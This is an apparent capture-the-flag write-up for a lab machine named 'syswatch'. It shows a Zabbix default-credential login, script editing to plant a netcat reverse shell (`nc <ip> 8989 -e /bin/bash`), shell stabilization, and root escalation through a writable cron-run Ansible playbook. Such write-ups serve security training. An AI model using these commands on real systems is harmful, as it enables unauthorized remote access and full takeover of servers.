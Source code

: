 # Write Up on syswatch machine

## Information Gathering And Enumeration
Let's us first start off by firing up our network mapper (nmap) to discover open ports and running services on our target. <br>
`nmap -sC -sV -oN syswatch.nmap 10.0.160.159`
```
Nmap scan report for 10.0.160.159
Host is up (0.27s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Cyborg Gaming
5000/tcp open  http    nginx 1.18.0
| http-robots.txt: 2 disallowed entries 
|_/ /zabbix/".
|_http-server-header: nginx/1.18.0
|_http-title: Zabbiz: Zabbix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  3 10:20:45 2023 -- 1 IP address (1 host up) scanned in 24.85 seconds
```

From the above scan we see that there are two services running. I browsed through the service running on port `80` but found nothing interesting. Looking at port `5000` nmap tells us that the application `zabbix` is running on that port.<br>

Let's take a look at it in our browser. <br>
![zabbix homepage](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/zabbix-port-5000-browser.png)

We are greeted with a login page and as usual we test default credentials to see if they work. After some googling we come across the default credentials for `zabbix`. <br>
![zabbix default creds](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/default-logins-zabbix-google.png)


## Exploitation
We can now test these credentials to see if they work. We enter the credentials and just like that we're are logged in to `zabbix`.<br>

After spending sometime reading about zabbix RCE and browsing through the application i found a hosts tab which allows us to run some defaults scripts on hosts in `zabbix`.<br>
![checking zabbix hosts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/checking-hosts-zabbix.png) <br>

And these are the various scripts we can run on the target. <br>
![zabbix host tab](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/zabbix-host-scripts.png)

After further probing i found out that these scripts that are run on the zabbix host can be edited (because we are the administrator). Let's first start off by viewing the content of these default scripts.<br>
![zabbix original scripts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/see-scripts.png)

After clicking on the script name we are greeted with a form which allows us to change the content of the script. For this demonstration we will edit the `traceroute` script. <br>

This is the orginal content of the traceroute script.<br>
![zabbix original scripts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/default-tracert-script.png)

We can edit this and place our malicious code here. <br>
`nc <ip-address> 8989 -e /bin/bash` <br>
After editing we can click on `update` to save those settings. <br>
![zabbix original scripts](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/edit-and-update-script.png)

We now head back to the `host` tab to run this script on the target server. We simply do that by clicking on the host and clicking on the script we want to run. Hold up!!! before you run the script make sure you have your netcat listening for incoming connections. <br>
![netcat listener](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/listening-on-nc.png)

Finally, we can run our malicous script(traceroute) to get a shell on our listener.<br>
![run mal script](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/run-modified-scripts.png)

Interesting.... we have a shell on the target. <br>
![got shell](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/connection-recieved-on-nc.png) <br>
NB: The script run time on `zabbix` times out after some minutes. If this happens just re-run the traceroute poisoned script.


## Post Exploitation
Anytime we get a shell through netcat we obtain a dumb shell. A dump shell has very little functionality and therefore we need a stable shell. Shell Stabilization prevents you from killing your reverse shell and adds proper shell functionalities.

#### Shell Stabilization
Execute on target
1. Step 1: `python3 -c "import pty;pty.spawn('/bin/bash')"` <br>
2. Step 2: `export TERM=xterm-color` <br>
3. Step 3: `CTRL+z`<br>
On host machine.
4. Step 4: `stty raw -echo; fg` <br>
5. Step 5: `reset` <br>


## Privilege Escalation
First thing i did was to run `sudo -l` but no luck. Next i decided to check if there's a process running with elevated privileges that can be abused. <br> 

We transfer our trusted friend `pspy64` onto the target. <br>

Brief explanaation of `pspy64`: it is a program that allows us to snoop on linux processes to find sensitve information, processes running with elevated privileges amongst many others. We would have to run this on the target to get the required information. <br>

We start off by starting our python http server in the directory that houses the `pspy64` binary. <br>
![python http server](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/serving-pspy64.png)

Then we download onto our target machine. Preferably we'll first change directory to the `/tmp` since it has loose permissions (rwx) for all users. <br>
![download pspy64](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/cd-to-tmp-and-download-pspy64.png)

Next, we give `pspy64` execute permissions. <br>
![exec pspy64](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/execute-perms-on-pspy64.png)

Then we run it. <br>
![run pspy64](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/run_pspy64.png)

![cronjob ansible](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/running-cron-job.png)

From the output we find out that a cronjob is running an ansible-playbook. We can find this playbook here: `/opt/playbooks/playbook.yml`. Let's not rush into anything yet, we must first check our permissions on `/opt/playbooks/playbook.yml`. <br>
![check perms](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/write-perms-on-playbook.png)

Wow! we have write permissions. Let's run off to create a malicious playbook. <br>
![mal playbook](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/playbook-yaml-payload.png)

The we download the playbook onto out target. At this point, i assume you already have your python http server setup. <br>
![download mal playbook](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/download-mal-playbook.png)

After this, we quickly setup our netcat listener. Note that in while crafting the malicious playbook we entered a command that will spawn a shell and connect to our machine on port `9090` using netcat. <br>
Now let's listen on port 9090. `rlwrap nc -lnvp 9090`
![other nc](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/other-nc-listening.png)

We can now go back to our target and over write the original `playbook.yml`.<br>
![overwrite playbook](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/over-write-original-playbook.png)

Now, we patiently wait for a connection on `9090`. :rofl: <br>
After a while the cron runs and we receive a connection.<br>
![conn recv](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/root-shell-cron-job-execs.png)

We are now root!! :smiley:<br>
![i am root](https://raw.githubusercontent.com/theMcSam/brCTF-writeups/main/syswatch/images/i-am-root.png)